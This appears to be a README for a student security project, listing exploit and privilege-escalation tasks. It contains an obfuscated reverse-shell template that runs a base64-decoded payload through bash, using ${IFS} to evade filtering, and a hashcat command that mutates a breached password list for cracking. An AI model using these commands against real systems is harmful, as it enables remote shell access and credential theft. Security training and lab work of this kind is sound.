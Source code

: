 # BAU-project
## TODO
1. Finish UI
2. Nabil create a docker image
3. Prepare exploits
4. Documentation :(
5. Enhance ProgramDownloader and test BoF attack
6. polkit 2022 exploit test
7. Restricted ssh shells (break out using python and tmux)
8. Dangling tmux session
999. after finally ( apt install forensics-all) (optional)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation (might cancel..)
```
https://pastebin.com/UycbfwRP
```
## Password list
Download: https://github.com/clem9669/hashcat-rule/blob/master/clem9669_medium.rule
```
# mohammad_threats2022 (sample in PassFromBreach.txt )
hashcat -r clem9669_medium.rule --stdout PassFromBreach.txt > output.txt
```
